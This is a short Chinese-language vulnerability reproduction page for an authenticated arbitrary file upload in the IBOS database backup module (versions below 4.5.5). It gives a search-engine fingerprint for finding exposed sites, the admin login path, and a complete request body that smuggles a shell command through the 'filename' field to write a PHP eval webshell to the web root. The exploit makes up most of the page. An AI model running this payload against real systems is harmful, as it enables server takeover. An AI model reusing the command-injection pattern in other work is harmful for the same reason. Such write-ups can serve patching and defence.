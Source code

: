 # IBOS 数据库模块 后台任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

```
IBOS < 4.5.5
```

## 网络测绘

```
body="IBOS" && body="login-panel"
```

## 漏洞复现

登录页面

```plain
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```



找到数据库备份模块



![](images/202202091853548.png)



提交并抓包



![](images/202202091853668.png)



修改filename参数发送包会上传test.php文件到根目录



```plain
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[test]);?>">test%PATHEXT:~0,1%php%26test&dbSubmit=1
```



![](images/202202091854875.png)